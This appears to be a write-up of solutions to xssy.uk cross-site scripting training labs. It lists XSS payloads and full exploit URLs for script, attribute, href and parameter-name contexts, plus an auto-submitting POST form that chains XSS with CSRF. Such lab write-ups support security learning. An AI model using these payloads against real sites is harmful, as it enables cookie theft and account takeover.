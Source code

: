 
### Lab 10: Script/JavaScript Context XSS
- **URL Lab**: https://xssy.uk/lab/10
- **Payload**: 
```javascript
";alert(document.cookie);//
```
- **Full URL**: 
```
https://66ohqg4u.xssy.uk/target.ftl?name=%22;alert(document.cookie);//
```

---

### Lab 2: Attribute XSS
- **URL Lab**: https://xssy.uk/lab/2
- **Payload**: 
```html
x" autofocus onfocus="alert(document.cookie)
```
- **Full URL**: 
```
https://xonpfky4.xssy.uk/target.ftl?name=x%22%20autofocus%20onfocus=%22alert(document.cookie)
```

---

### Lab 12: Href XSS
- **URL Lab**: https://xssy.uk/lab/12
- **Payload**: 
```javascript
javascript:alert(document.cookie)
```
- **Full URL**: 
```
https://alo5543d.xssy.uk/target.ftl?url=javascript%3Aalert%28document.cookie%29
```

---

### Lab 8: Parameter Name XSS
- **URL Lab**: https://xssy.uk/lab/8
- **Payload**: 
```html
name=<i>bisanih&<i>yakin: <script>alert(document.cookie)</script>
```
- **Full URL**: 
```
https://sh4oxynx.xssy.uk/target.ftl?name=%3Ci%3Ebisanih&%3Ci%3Eyakin:%20%3Cscript%3Ealert(document.cookie)%3C/script%3E
```

---

### Lab 33: POST Reflective XSS | XSS + CSRF
- **URL Lab**: https://xssy.uk/lab/33
- **Payload**: 
```html
<html>
<head><title>POST based xss</title></head>
<body onload="document.forms[0].submit()">
<form action="https://bsu2zcop.xssy.uk/target.ftl" method="POST">Enter your name:
<input type="text" name="name" value="<script>alert(document.cookie)</script>"/>
<input type="submit"/>
</form>
</body>
</html>
```